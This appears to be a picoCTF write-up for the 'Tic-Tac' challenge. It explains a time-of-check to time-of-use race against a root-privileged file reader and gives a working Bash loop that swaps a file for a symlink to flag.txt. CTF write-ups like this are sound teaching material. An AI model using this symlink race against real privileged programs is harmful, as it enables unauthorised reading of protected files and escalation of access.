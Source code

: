 # picoCTF Tic-Tac

The challenge description informs us that the file runs with root privileges and can read other files owned by us.

After reviewing the source code, it becomes clear that we can exploit a **TocTou attack** (Time of Check to Time of Use). Essentially, the program checks whether we own a file. If we do, it outputs the file's content. By altering the file at the right moment, we can bypass the ownership check and replace the file with something else—for example, a symbolic link to `flag.txt`. Since the `txtreader` program runs as root, it can read the `flag.txt` file.

### The Bash Script Exploit

I created a simple Bash script to perform this attack:

```
#!/bin/bash

FILE=/home/ctf-player/attack

for i in {1..200};

do

if [ -L "$FILE" ]; then
	rm "$FILE"
fi
echo "TEST" >> "$FILE"

./txtreader "$FILE" &
rm "$FILE"
ln -s flag.txt "$FILE"
done
```

This script performs the following steps:

1. Checks if there is a symbolic link named `attack`. If it exists, it deletes the link.
2. Creates a regular file named `attack` and writes the word "TEST" to it.
3. Runs the `txtreader` program with `attack` as its argument.
4. Deletes the file `attack` and replaces it with a symbolic link pointing to `flag.txt`.

These steps are repeated multiple times in a loop, creating a race condition.

### Execution

To execute this exploit, I log into the instance via SSH, create the Bash script using `nano`, and run the script. It may take a few attempts, but this method reliably retrieves the flag.

